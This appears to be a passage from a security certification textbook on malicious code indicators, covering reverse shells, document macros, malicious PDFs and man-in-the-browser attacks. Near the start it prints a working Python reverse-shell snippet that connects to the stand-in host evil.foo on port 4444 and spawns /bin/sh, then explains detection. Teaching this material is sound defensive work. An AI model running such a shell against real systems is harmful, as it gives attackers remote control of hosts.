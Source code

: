 A very common vector for attacking Linux hosts is to use an exploit to install a web shell as a backdoor ([acunetix.com/blog/articles/introduction-web-shells-part-1](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)). Typical code to implement a reverse shell (connecting out to the machine at evil.foo on port 4444) is as follows:

s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)

s.connect(("evil.foo",4444))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")'

The os.dup2 statements redirect the terminal's data streams stdin (0), stdout (1), and stderr (2) to the socket object (s). The pty module provides a library of functions for managing a pseudo-terminal, in this case starting the shell process at /bin/sh.

The code to implement a shell can be obfuscated in numerous ways. One way to identify malicious scripts trying to match code samples is to scan the file system against a configuration baseline, either using file integrity monitoring or use of the Linux diff command.

A common exploit for a vulnerable web server is to upload a cryptominer, misusing the server's CPU resources to try to obtain new cryptocurrency. You can use Linux utilities such as top and free to diagnose excessive CPU and memory resource consumption by such malware.

MACROS AND VISUAL BASIC FOR APPLICATIONS (VBA)

A document macro is a sequence of actions performed in the context of a word processor, spreadsheet, or presentation file. While the user may be able to record macro steps using the GUI, ultimately macros are coded in a scripting language. Microsoft Office uses the Visual Basic for Applications (VBA) language, while PDF documents use JavaScript. Microsoft Office document macros can be inspected using ALT+F11. Other vendors and open-source software also implement macro functionality, using languages such as Basic or Python.

A malicious actor will try to use a macro-enabled document to execute arbitrary code. For example, a Word document could be the vector for executing a malicious PowerShell script. Macros are disabled by default in Office, but the attacker may be able to use a social engineering attack to get the user to change the policy.

With PDF, the JavaScript might be embedded within the document and designed to exploit a known vulnerability in the reader software to execute without authorization ([sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks](https://www.sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks/)).

## MAN-IN-THE-BROWSER ATTACK

A man-in-the-browser (MitB) attack is a specific type of on-path attack where the web browser is compromised. Depending on the level of privilege obtained, the attacker may be able to inspect session cookies, certificates, and data, change browser settings, perform redirection, and inject code.

A MitB attack may be accomplished by installing malicious plug-ins or scripts or intercepting calls between the browser process and DLLs ([attack.mitre.org/techniques/T1185](https://attack.mitre.org/techniques/T1185/)). The Browser Exploitation Framework (BeEF) ([beefproject.com](https://beefproject.com/)) is one well known MitB tool. There are various vulnerability exploit kits that can be installed to a website to actively try to exploit vulnerabilities in clients browsing the site ([trendmicro.com/vinfo/ie/security/definition/exploit-kit](https://www.trendmicro.com/vinfo/ie/security/definition/exploit-kit)). These kits may either be installed to a legitimate site without the owner's knowledge (by compromising access control on the web server) and load in an iFrame (invisible to the user), or the attacker may use phishing/social engineering techniques to trick users into visiting the site.
